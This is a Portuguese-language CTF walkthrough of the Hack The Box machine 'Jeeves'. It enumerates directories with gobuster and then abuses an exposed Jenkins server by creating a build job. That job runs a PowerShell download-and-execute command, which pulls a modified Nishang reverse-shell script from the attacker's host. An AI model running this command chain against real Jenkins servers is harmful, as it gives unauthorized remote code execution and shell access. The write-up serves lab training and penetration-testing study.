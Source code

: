 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_gobuster.png)

Explicação Gobuster

`gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`

dir -u -> Modo diretórios no site http://10.10.10.63:50000

-w -> Wordlist utilizada

Então vamos entrar nesse `askjeeves` que ele encontrou

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_web2.png)

Encontramos algo interessante!

`Jenkins é um servidor de automação open source. Ele ajuda na automatização e desenvolvimento de softwares relativos à construção, teste e desenvolvimento, facilitando a continuidade da integração`

Temos dois modos de explorar ele

# Explorando Jenkins Askjeeves (1ºModo - NewJob)

O primeiro modo de se explorar ele é através da criação de um NewJob. Clicamos em `NewItem` e somos redirecionados a página

Digitamos o nome do projeto e clicamos em `Freestyle Project`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_web3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_web4.png)

Agora colocamos o comando para ser executado em `Build` - Execute Windows Batch Command

`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_web5.png)

Para isso devemos ter nosso Nishang já preparado na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_n.png)

> https://github.com/samratashok/nishang

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_n1.png)

Alteramos para a última linha ser a chamada de um reverse shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_n3.png)

Clicamos em `Save` e agora executamos no servidor (lembrar de já ter o nc aberto na Kali) clicando em `Build Now`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_web6.png)
